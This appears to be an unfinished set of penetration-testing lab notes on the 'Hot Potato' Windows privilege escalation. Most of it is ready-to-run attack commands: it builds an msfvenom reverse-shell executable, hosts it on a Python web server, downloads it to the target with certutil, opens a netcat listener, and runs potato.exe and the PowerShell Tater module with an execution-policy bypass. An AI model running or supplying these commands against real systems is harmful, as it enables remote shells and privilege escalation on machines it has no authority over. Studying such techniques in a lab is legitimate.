(checklist)

- port scan
- version scan
- service scan

COMMANDS:
Assume that we have access to the windows machine as user:

C:\Users\user\Desktop\Tools\Hot Potato>whoami
whoami
guidem\user

Let’s check our group membership using netcommands:
net user user
 - The command completed successfully.

Exploitation > Create another payload using Msfvenom:
 - msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131 lport=4444 -f exe -o potato_reverse.exe

Host it to a webserver:
 - sudo python3 -m http.server 8080

Let the target download the payload:
 - certutil -urlcache -f http://192.168.121.131:8080/potato_reverse.exe C:\Temp\potato_reverse.exe

Listen for connection:
 - nc -nlvp 4444

Run this command to the target machine's CLI:
 - potato.exe -ip 192.168.121.134 -cmd “C:\Temp\potato_reverse.exe” -enable_httpserver true -enable_defender true  -enable_spoof true -enable_exhaust true

Powershell version:

powershell.exe -nop -ep bypass

Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1

Invoke-Tater -Trigger 1 -Command “C:\Temp\potato_reverse.exe"

Unfinished